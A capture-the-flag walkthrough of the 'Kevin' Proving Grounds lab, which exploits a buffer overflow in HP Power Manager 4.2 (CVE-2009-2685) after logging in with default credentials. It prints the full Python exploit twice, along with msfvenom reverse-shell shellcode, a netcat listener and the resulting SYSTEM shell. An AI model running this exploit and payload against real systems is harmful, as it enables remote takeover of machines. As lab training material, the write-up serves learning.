

# Kevin

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 10
Number of Flags: 1
Lab Description:
This lab focuses on exploiting a buffer overflow vulnerability in HP Power Manager v4.2 Build 7 to 
achieve remote code execution. Learners will use both a Python-based exploit and a Metasploit 
module to gain SYSTEM-level access on a Windows 7 machine. The exercise highlights buffer overflow 
exploitation and the risks of using default credentials.
Released: 3 Aug 2020
Retired: 1 Oct 2022
```

Machine link: [https://portal.offsec.com/machine/kevin-189/overview/details](https://portal.offsec.com/machine/kevin-189/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ export TARGET_IP=192.168.129.45 

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-03 09:32 CEST
Nmap scan report for 192.168.129.45
Host is up (0.035s latency).
Not shown: 65475 closed tcp ports (reset), 48 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          GoAhead WebServer
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.129.45/index.asp
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2025-09-03T07:34:39+00:00
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2025-09-02T07:28:35
|_Not valid after:  2026-03-04T07:28:35
|_ssl-date: 2025-09-03T07:34:47+00:00; -1s from scanner time.
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49159/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:d0:dc (VMware)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-09-03T00:34:39-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-09-03T07:34:39
|_  start_date: 2025-09-03T07:29:19
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.96 seconds
```

We have six main services running and available:

- GoAhead WebServer running on port 80
- Microsoft RPC running on port 135
- NetBIOS Session Service running on port 139
- SMB running on port 445
- Microsoft Terminal Service running on port 3389
- An unknown service running on port 3573

We also see that the machine is called `Kevin`, is running `Windows 7` and is not joined to any AD-domain.

### Check the web site

Browsing manually to port 80 shows a `HP Power Manager` login:



Trying common credentials such as `admin:admin` worked and we were able to login.

On the `Help` page we find that the version running is `HP Power Manager 4.2 (Build 7)`.

### Search for available exploits

Let's see if there are any available exploits

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ searchsploit power manager
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
ApowerManager 3.1.7 - Phone Manager Remote Denial of Service (PoC)                                                                                    | android/dos/46380.py
Drive Power Manager 1.10 - Denial Of Service (PoC)                                                                                                    | windows_x86/dos/45299.py
Eaton Intelligent Power Manager 1.6 - Directory Traversal                                                                                             | hardware/webapps/48614.txt
Flying Dog Software Powerslave 4.3 Portalmanager - 'sql_id' Information Disclosure                                                                    | php/webapps/23163.txt
Hewlett-Packard (HP) Power Manager Administration - Remote Buffer Overflow (Metasploit)                                                               | windows/remote/16785.rb
Hewlett-Packard (HP) Power Manager Administration Power Manager Administration - Universal Buffer Overflow                                            | windows/remote/10099.py
HP Power Manager - 'formExportDataLogs' Remote Buffer Overflow (Metasploit)                                                                           | cgi/remote/18015.rb
NPM-V (Network Power Manager) 2.4.1 - Password Reset                                                                                                  | hardware/webapps/42933.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ searchsploit -m 10099     
  Exploit: Hewlett-Packard (HP) Power Manager Administration Power Manager Administration - Universal Buffer Overflow
      URL: https://www.exploit-db.com/exploits/10099
     Path: /usr/share/exploitdb/exploits/windows/remote/10099.py
    Codes: CVE-2009-2685
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Kevin/10099.py


┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ cat 10099.py 
#!/usr/bin/python
# HP Power Manager Administration Universal Buffer Overflow Exploit
# CVE 2009-2685
# Tested on Win2k3 Ent SP2 English, Win XP Sp2 English
# Matteo Memelli ryujin __A-T__ offensive-security.com
# www.offensive-security.com
# Spaghetti & Pwnsauce - 07/11/2009
#
# ryujin@bt:~$ ./hppowermanager.py 172.16.30.203
# HP Power Manager Administration Universal Buffer Overflow Exploit
# ryujin __A-T__ offensive-security.com
# [+] Sending evil buffer...
# HTTP/1.0 200 OK
# [+] Done!
# [*] Check your shell at 172.16.30.203:4444 , can take up to 1 min to spawn your shell
# ryujin@bt:~$ nc -v 172.16.30.203 4444
# 172.16.30.203: inverse host lookup failed: Unknown server error : Connection timed out
# (UNKNOWN) [172.16.30.203] 4444 (?) open
# Microsoft Windows [Version 5.2.3790]
# (C) Copyright 1985-2003 Microsoft Corp.

# C:\WINDOWS\system32>

import sys
from socket import *

print "HP Power Manager Administration Universal Buffer Overflow Exploit"
print "ryujin __A-T__ offensive-security.com"

try:
   HOST  = sys.argv[1]
except IndexError:
   print "Usage: %s HOST" % sys.argv[0]
   sys.exit()

PORT  = 80
RET   = "\xCF\xBC\x08\x76" # 7608BCCF JMP ESP MSVCP60.dll

# [*] Using Msf::Encoder::PexAlphaNum with final size of 709 bytes
# badchar = "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a"
SHELL = (
"n00bn00b"
"\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
"\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
"\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
"\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
"\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4c\x36\x4b\x4e"
"\x4d\x44\x4a\x4e\x49\x4f\x4f\x4f\x4f\x4f\x4f\x4f\x42\x46\x4b\x38"
"\x4e\x56\x46\x32\x46\x42\x4b\x58\x45\x34\x4e\x33\x4b\x48\x4e\x47"
"\x45\x30\x4a\x37\x41\x50\x4f\x4e\x4b\x38\x4f\x34\x4a\x51\x4b\x38"
"\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x54\x4b\x48\x46\x33\x4b\x58"
"\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x49\x4e\x4a\x46\x58\x42\x4c"
"\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x30\x41\x50\x44\x4c\x4b\x4e"
"\x46\x4f\x4b\x53\x46\x55\x46\x32\x4a\x52\x45\x47\x45\x4e\x4b\x58"
"\x4f\x55\x46\x52\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x50\x4b\x54"
"\x4b\x58\x4f\x55\x4e\x31\x41\x30\x4b\x4e\x43\x50\x4e\x42\x4b\x48"
"\x49\x38\x4e\x36\x46\x52\x4e\x31\x41\x46\x43\x4c\x41\x43\x4b\x4d"
"\x46\x46\x4b\x38\x43\x54\x42\x33\x4b\x38\x42\x54\x4e\x30\x4b\x48"
"\x42\x37\x4e\x31\x4d\x4a\x4b\x48\x42\x34\x4a\x30\x50\x35\x4a\x46"
"\x50\x48\x50\x34\x50\x50\x4e\x4e\x42\x45\x4f\x4f\x48\x4d\x48\x56"
"\x43\x45\x48\x46\x4a\x36\x43\x43\x44\x33\x4a\x46\x47\x47\x43\x57"
"\x44\x33\x4f\x55\x46\x45\x4f\x4f\x42\x4d\x4a\x56\x4b\x4c\x4d\x4e"
"\x4e\x4f\x4b\x33\x42\x45\x4f\x4f\x48\x4d\x4f\x55\x49\x38\x45\x4e"
"\x48\x36\x41\x38\x4d\x4e\x4a\x30\x44\x50\x45\x35\x4c\x56\x44\x50"
"\x4f\x4f\x42\x4d\x4a\x36\x49\x4d\x49\x50\x45\x4f\x4d\x4a\x47\x35"
"\x4f\x4f\x48\x4d\x43\x55\x43\x55\x43\x35\x43\x45\x43\x35\x43\x34"
"\x43\x35\x43\x54\x43\x45\x4f\x4f\x42\x4d\x48\x46\x4a\x46\x41\x41"
"\x4e\x35\x48\x46\x43\x55\x49\x58\x41\x4e\x45\x39\x4a\x36\x46\x4a"
"\x4c\x31\x42\x47\x47\x4c\x47\x35\x4f\x4f\x48\x4d\x4c\x46\x42\x51"
"\x41\x35\x45\x55\x4f\x4f\x42\x4d\x4a\x46\x46\x4a\x4d\x4a\x50\x42"
"\x49\x4e\x47\x45\x4f\x4f\x48\x4d\x43\x55\x45\x55\x4f\x4f\x42\x4d"
"\x4a\x56\x45\x4e\x49\x54\x48\x58\x49\x54\x47\x45\x4f\x4f\x48\x4d"
"\x42\x55\x46\x45\x46\x45\x45\x35\x4f\x4f\x42\x4d\x43\x59\x4a\x46"
"\x47\x4e\x49\x57\x48\x4c\x49\x47\x47\x55\x4f\x4f\x48\x4d\x45\x35"
"\x4f\x4f\x42\x4d\x48\x46\x4c\x36\x46\x56\x48\x56\x4a\x46\x43\x36"
"\x4d\x46\x49\x58\x45\x4e\x4c\x56\x42\x55\x49\x35\x49\x52\x4e\x4c"
"\x49\x58\x47\x4e\x4c\x56\x46\x54\x49\x38\x44\x4e\x41\x43\x42\x4c"
"\x43\x4f\x4c\x4a\x50\x4f\x44\x34\x4d\x32\x50\x4f\x44\x34\x4e\x42"
"\x43\x59\x4d\x38\x4c\x57\x4a\x33\x4b\x4a\x4b\x4a\x4b\x4a\x4a\x56"
"\x44\x57\x50\x4f\x43\x4b\x48\x51\x4f\x4f\x45\x47\x46\x34\x4f\x4f"
"\x48\x4d\x4b\x35\x47\x45\x44\x35\x41\x55\x41\x45\x41\x35\x4c\x56"
"\x41\x30\x41\x55\x41\x45\x45\x35\x41\x35\x4f\x4f\x42\x4d\x4a\x56"
"\x4d\x4a\x49\x4d\x45\x50\x50\x4c\x43\x35\x4f\x4f\x48\x4d\x4c\x36"
"\x4f\x4f\x4f\x4f\x47\x43\x4f\x4f\x42\x4d\x4b\x58\x47\x45\x4e\x4f"
"\x43\x58\x46\x4c\x46\x46\x4f\x4f\x48\x4d\x44\x45\x4f\x4f\x42\x4d"
"\x4a\x36\x4f\x4e\x50\x4c\x42\x4e\x42\x56\x43\x45\x4f\x4f\x48\x4d"
"\x4f\x4f\x42\x4d\x5a")

EH ='\x33\xD2\x90\x90\x90\x42\x52\x6a'
EH +='\x02\x58\xcd\x2e\x3c\x05\x5a\x74'
EH +='\xf4\xb8\x6e\x30\x30\x62\x8b\xfa'
EH +='\xaf\x75\xea\xaf\x75\xe7\xff\xe7'

evil =  "POST http://%s/goform/formLogin HTTP/1.1\r\n"
evil += "Host: %s\r\n"
evil += "User-Agent: %s\r\n"
evil += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
evil += "Accept-Language: en-us,en;q=0.5\r\n"
evil += "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\n"
evil += "Keep-Alive: 300\r\n"
evil += "Proxy-Connection: keep-alive\r\n"
evil += "Referer: http://%s/index.asp\r\n"
evil += "Content-Type: application/x-www-form-urlencoded\r\n"
evil += "Content-Length: 678\r\n\r\n"
evil += "HtmlOnly=true&Password=admin&loginButton=Submit+Login&Login=admin"
evil += "\x41"*256 + RET + "\x90"*32 + EH + "\x42"*287 + "\x0d\x0a"
evil = evil % (HOST,HOST,SHELL,HOST)

s = socket(AF_INET, SOCK_STREAM)
s.connect((HOST, PORT))
print '[+] Sending evil buffer...'
s.send(evil)
print s.recv(1024)
print "[+] Done!"
print "[*] Check your shell at %s:4444 , can take up to 1 min to spawn your shell" % HOST
s.close()  
```

We have a python exploit with some unknown payload that spawns a shell on the target machine.

Let's create our own payload instead with `msfvenom` avoiding the specified bad characters.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ msfvenom -p windows/shell_reverse_tcp -b '\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a' LHOST=192.168.45.180 LPORT=443 -f c -v SHELL -e x86/alpha_mixed
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 710 (iteration=0)
x86/alpha_mixed chosen with final size 710
Payload size: 710 bytes
Final size of c file: 3019 bytes
unsigned char SHELL[] = 
"\x89\xe6\xdb\xc9\xd9\x76\xf4\x5d\x55\x59\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51"
"\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32"
"\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41"
"\x42\x75\x4a\x49\x79\x6c\x6b\x58\x6e\x62\x53\x30\x67\x70"
"\x33\x30\x75\x30\x6f\x79\x79\x75\x45\x61\x49\x50\x43\x54"
"\x6c\x4b\x66\x30\x46\x50\x4e\x6b\x63\x62\x44\x4c\x4e\x6b"
"\x36\x32\x62\x34\x6c\x4b\x31\x62\x56\x48\x76\x6f\x4f\x47"
"\x42\x6a\x47\x56\x66\x51\x39\x6f\x6c\x6c\x77\x4c\x43\x51"
"\x53\x4c\x47\x72\x34\x6c\x51\x30\x5a\x61\x68\x4f\x44\x4d"
"\x43\x31\x39\x57\x5a\x42\x58\x72\x32\x72\x50\x57\x6c\x4b"
"\x36\x32\x62\x30\x4c\x4b\x63\x7a\x35\x6c\x4c\x4b\x52\x6c"
"\x46\x71\x51\x68\x39\x73\x62\x68\x43\x31\x6a\x71\x76\x31"
"\x6c\x4b\x70\x59\x51\x30\x55\x51\x48\x53\x4e\x6b\x63\x79"
"\x34\x58\x49\x73\x74\x7a\x63\x79\x4c\x4b\x45\x64\x6e\x6b"
"\x46\x61\x68\x56\x75\x61\x39\x6f\x4e\x4c\x39\x51\x5a\x6f"
"\x66\x6d\x47\x71\x58\x47\x44\x78\x79\x70\x52\x55\x4b\x46"
"\x66\x63\x53\x4d\x68\x78\x47\x4b\x31\x6d\x77\x54\x52\x55"
"\x69\x74\x72\x78\x6e\x6b\x36\x38\x54\x64\x76\x61\x78\x53"
"\x52\x46\x6c\x4b\x36\x6c\x50\x4b\x6e\x6b\x46\x38\x65\x4c"
"\x57\x71\x6b\x63\x4e\x6b\x54\x44\x6c\x4b\x66\x61\x7a\x70"
"\x4c\x49\x33\x74\x64\x64\x37\x54\x63\x6b\x33\x6b\x75\x31"
"\x52\x79\x53\x6a\x66\x31\x59\x6f\x4d\x30\x61\x4f\x73\x6f"
"\x31\x4a\x6e\x6b\x64\x52\x78\x6b\x4c\x4d\x71\x4d\x73\x58"
"\x75\x63\x30\x32\x53\x30\x63\x30\x63\x58\x54\x37\x31\x63"
"\x50\x32\x51\x4f\x36\x34\x31\x78\x42\x6c\x50\x77\x34\x66"
"\x55\x57\x6b\x4f\x39\x45\x38\x38\x6e\x70\x43\x31\x43\x30"
"\x63\x30\x37\x59\x39\x54\x36\x34\x32\x70\x31\x78\x54\x69"
"\x6f\x70\x62\x4b\x57\x70\x49\x6f\x4a\x75\x42\x70\x56\x30"
"\x30\x50\x46\x30\x33\x70\x50\x50\x51\x50\x46\x30\x32\x48"
"\x79\x7a\x66\x6f\x79\x4f\x39\x70\x79\x6f\x69\x45\x6a\x37"
"\x50\x6a\x35\x55\x65\x38\x4b\x70\x69\x38\x76\x4d\x6e\x54"
"\x55\x38\x66\x62\x45\x50\x65\x51\x4f\x4b\x4c\x49\x4a\x46"
"\x31\x7a\x36\x70\x51\x46\x71\x47\x61\x78\x6a\x39\x4f\x55"
"\x50\x74\x33\x51\x59\x6f\x4b\x65\x6c\x45\x69\x50\x72\x54"
"\x34\x4c\x6b\x4f\x42\x6e\x67\x78\x54\x35\x4a\x4c\x72\x48"
"\x78\x70\x4d\x65\x79\x32\x50\x56\x6b\x4f\x68\x55\x70\x68"
"\x53\x53\x50\x6d\x43\x54\x57\x70\x6b\x39\x39\x73\x62\x77"
"\x50\x57\x63\x67\x64\x71\x58\x76\x32\x4a\x56\x72\x31\x49"
"\x53\x66\x4d\x32\x6b\x4d\x71\x76\x6f\x37\x31\x54\x67\x54"
"\x77\x4c\x66\x61\x36\x61\x6e\x6d\x51\x54\x51\x34\x46\x70"
"\x59\x56\x67\x70\x42\x64\x73\x64\x52\x70\x66\x36\x76\x36"
"\x46\x36\x52\x66\x50\x56\x62\x6e\x56\x36\x63\x66\x36\x33"
"\x56\x36\x72\x48\x61\x69\x58\x4c\x35\x6f\x4d\x56\x6b\x4f"
"\x7a\x75\x6c\x49\x6d\x30\x52\x6e\x51\x46\x53\x76\x59\x6f"
"\x46\x50\x30\x68\x55\x58\x6d\x57\x55\x4d\x35\x30\x59\x6f"
"\x59\x45\x4d\x6b\x4a\x50\x4e\x55\x6d\x72\x70\x56\x71\x78"
"\x69\x36\x6f\x65\x6d\x6d\x4f\x6d\x6b\x4f\x4b\x65\x45\x6c"
"\x44\x46\x73\x4c\x46\x6a\x4b\x30\x79\x6b\x4d\x30\x32\x55"
"\x64\x45\x6d\x6b\x43\x77\x64\x53\x32\x52\x52\x4f\x71\x7a"
"\x57\x70\x53\x63\x59\x6f\x69\x45\x41\x41";
```

Then we update the exploit with our shellcode

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ vi 10099.py 

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ cat 10099.py
#!/usr/bin/python
# HP Power Manager Administration Universal Buffer Overflow Exploit
# CVE 2009-2685
# Tested on Win2k3 Ent SP2 English, Win XP Sp2 English
# Matteo Memelli ryujin __A-T__ offensive-security.com
# www.offensive-security.com
# Spaghetti & Pwnsauce - 07/11/2009
#
# ryujin@bt:~$ ./hppowermanager.py 172.16.30.203
# HP Power Manager Administration Universal Buffer Overflow Exploit
# ryujin __A-T__ offensive-security.com
# [+] Sending evil buffer...
# HTTP/1.0 200 OK
# [+] Done!
# [*] Check your shell at 172.16.30.203:4444 , can take up to 1 min to spawn your shell
# ryujin@bt:~$ nc -v 172.16.30.203 4444
# 172.16.30.203: inverse host lookup failed: Unknown server error : Connection timed out
# (UNKNOWN) [172.16.30.203] 4444 (?) open
# Microsoft Windows [Version 5.2.3790]
# (C) Copyright 1985-2003 Microsoft Corp.

# C:\WINDOWS\system32>

import sys
from socket import *

print "HP Power Manager Administration Universal Buffer Overflow Exploit"
print "ryujin __A-T__ offensive-security.com"

try:
   HOST  = sys.argv[1]
except IndexError:
   print "Usage: %s HOST" % sys.argv[0]
   sys.exit()

PORT  = 80
RET   = "\xCF\xBC\x08\x76" # 7608BCCF JMP ESP MSVCP60.dll

# [*] Using Msf::Encoder::PexAlphaNum with final size of 709 bytes
# badchar = "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a"
SHELL = (
"n00bn00b"
"\x89\xe6\xdb\xc9\xd9\x76\xf4\x5d\x55\x59\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51"
"\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32"
"\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41"
"\x42\x75\x4a\x49\x79\x6c\x6b\x58\x6e\x62\x53\x30\x67\x70"
"\x33\x30\x75\x30\x6f\x79\x79\x75\x45\x61\x49\x50\x43\x54"
"\x6c\x4b\x66\x30\x46\x50\x4e\x6b\x63\x62\x44\x4c\x4e\x6b"
"\x36\x32\x62\x34\x6c\x4b\x31\x62\x56\x48\x76\x6f\x4f\x47"
"\x42\x6a\x47\x56\x66\x51\x39\x6f\x6c\x6c\x77\x4c\x43\x51"
"\x53\x4c\x47\x72\x34\x6c\x51\x30\x5a\x61\x68\x4f\x44\x4d"
"\x43\x31\x39\x57\x5a\x42\x58\x72\x32\x72\x50\x57\x6c\x4b"
"\x36\x32\x62\x30\x4c\x4b\x63\x7a\x35\x6c\x4c\x4b\x52\x6c"
"\x46\x71\x51\x68\x39\x73\x62\x68\x43\x31\x6a\x71\x76\x31"
"\x6c\x4b\x70\x59\x51\x30\x55\x51\x48\x53\x4e\x6b\x63\x79"
"\x34\x58\x49\x73\x74\x7a\x63\x79\x4c\x4b\x45\x64\x6e\x6b"
"\x46\x61\x68\x56\x75\x61\x39\x6f\x4e\x4c\x39\x51\x5a\x6f"
"\x66\x6d\x47\x71\x58\x47\x44\x78\x79\x70\x52\x55\x4b\x46"
"\x66\x63\x53\x4d\x68\x78\x47\x4b\x31\x6d\x77\x54\x52\x55"
"\x69\x74\x72\x78\x6e\x6b\x36\x38\x54\x64\x76\x61\x78\x53"
"\x52\x46\x6c\x4b\x36\x6c\x50\x4b\x6e\x6b\x46\x38\x65\x4c"
"\x57\x71\x6b\x63\x4e\x6b\x54\x44\x6c\x4b\x66\x61\x7a\x70"
"\x4c\x49\x33\x74\x64\x64\x37\x54\x63\x6b\x33\x6b\x75\x31"
"\x52\x79\x53\x6a\x66\x31\x59\x6f\x4d\x30\x61\x4f\x73\x6f"
"\x31\x4a\x6e\x6b\x64\x52\x78\x6b\x4c\x4d\x71\x4d\x73\x58"
"\x75\x63\x30\x32\x53\x30\x63\x30\x63\x58\x54\x37\x31\x63"
"\x50\x32\x51\x4f\x36\x34\x31\x78\x42\x6c\x50\x77\x34\x66"
"\x55\x57\x6b\x4f\x39\x45\x38\x38\x6e\x70\x43\x31\x43\x30"
"\x63\x30\x37\x59\x39\x54\x36\x34\x32\x70\x31\x78\x54\x69"
"\x6f\x70\x62\x4b\x57\x70\x49\x6f\x4a\x75\x42\x70\x56\x30"
"\x30\x50\x46\x30\x33\x70\x50\x50\x51\x50\x46\x30\x32\x48"
"\x79\x7a\x66\x6f\x79\x4f\x39\x70\x79\x6f\x69\x45\x6a\x37"
"\x50\x6a\x35\x55\x65\x38\x4b\x70\x69\x38\x76\x4d\x6e\x54"
"\x55\x38\x66\x62\x45\x50\x65\x51\x4f\x4b\x4c\x49\x4a\x46"
"\x31\x7a\x36\x70\x51\x46\x71\x47\x61\x78\x6a\x39\x4f\x55"
"\x50\x74\x33\x51\x59\x6f\x4b\x65\x6c\x45\x69\x50\x72\x54"
"\x34\x4c\x6b\x4f\x42\x6e\x67\x78\x54\x35\x4a\x4c\x72\x48"
"\x78\x70\x4d\x65\x79\x32\x50\x56\x6b\x4f\x68\x55\x70\x68"
"\x53\x53\x50\x6d\x43\x54\x57\x70\x6b\x39\x39\x73\x62\x77"
"\x50\x57\x63\x67\x64\x71\x58\x76\x32\x4a\x56\x72\x31\x49"
"\x53\x66\x4d\x32\x6b\x4d\x71\x76\x6f\x37\x31\x54\x67\x54"
"\x77\x4c\x66\x61\x36\x61\x6e\x6d\x51\x54\x51\x34\x46\x70"
"\x59\x56\x67\x70\x42\x64\x73\x64\x52\x70\x66\x36\x76\x36"
"\x46\x36\x52\x66\x50\x56\x62\x6e\x56\x36\x63\x66\x36\x33"
"\x56\x36\x72\x48\x61\x69\x58\x4c\x35\x6f\x4d\x56\x6b\x4f"
"\x7a\x75\x6c\x49\x6d\x30\x52\x6e\x51\x46\x53\x76\x59\x6f"
"\x46\x50\x30\x68\x55\x58\x6d\x57\x55\x4d\x35\x30\x59\x6f"
"\x59\x45\x4d\x6b\x4a\x50\x4e\x55\x6d\x72\x70\x56\x71\x78"
"\x69\x36\x6f\x65\x6d\x6d\x4f\x6d\x6b\x4f\x4b\x65\x45\x6c"
"\x44\x46\x73\x4c\x46\x6a\x4b\x30\x79\x6b\x4d\x30\x32\x55"
"\x64\x45\x6d\x6b\x43\x77\x64\x53\x32\x52\x52\x4f\x71\x7a"
"\x57\x70\x53\x63\x59\x6f\x69\x45\x41\x41")

EH ='\x33\xD2\x90\x90\x90\x42\x52\x6a'
EH +='\x02\x58\xcd\x2e\x3c\x05\x5a\x74'
EH +='\xf4\xb8\x6e\x30\x30\x62\x8b\xfa'
EH +='\xaf\x75\xea\xaf\x75\xe7\xff\xe7'

evil =  "POST http://%s/goform/formLogin HTTP/1.1\r\n"
evil += "Host: %s\r\n"
evil += "User-Agent: %s\r\n"
evil += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
evil += "Accept-Language: en-us,en;q=0.5\r\n"
evil += "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\n"
evil += "Keep-Alive: 300\r\n"
evil += "Proxy-Connection: keep-alive\r\n"
evil += "Referer: http://%s/index.asp\r\n"
evil += "Content-Type: application/x-www-form-urlencoded\r\n"
evil += "Content-Length: 678\r\n\r\n"
evil += "HtmlOnly=true&Password=admin&loginButton=Submit+Login&Login=admin"
evil += "\x41"*256 + RET + "\x90"*32 + EH + "\x42"*287 + "\x0d\x0a"
evil = evil % (HOST,HOST,SHELL,HOST)

s = socket(AF_INET, SOCK_STREAM)
s.connect((HOST, PORT))
print '[+] Sending evil buffer...'
s.send(evil)
print s.recv(1024)
print "[+] Done!"
s.close()
```

### Get a shell

Now we start a netcat listener on port 443

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ nc -lvnp 443
listening on [any] 443 ...

```

And launch the exploit

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ python2 10099.py $TARGET_IP
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
```

Checking back to the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Kevin]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.129.45] 49177
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

We are running as SYSTEM!

### Get the root flag

Finally we get the only flag on the machine

```bash
C:\Windows\system32>where.exe /R C:\ root.txt
where.exe /R C:\ root.txt
INFO: Could not find files for the given pattern(s).

C:\Windows\system32>where.exe /R C:\ proof.txt
where.exe /R C:\ proof.txt
C:\Users\Administrator\Desktop\proof.txt

C:\Windows\system32>type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
1<REDACTED>b

C:\Windows\system32>
```

For additional information, please see the references below.

## References

- [How to use msfvenom - Metasploit Docs](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- [Metasploit - Documentation](https://docs.metasploit.com/)
- [Metasploit - Homepage](https://www.metasploit.com/)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
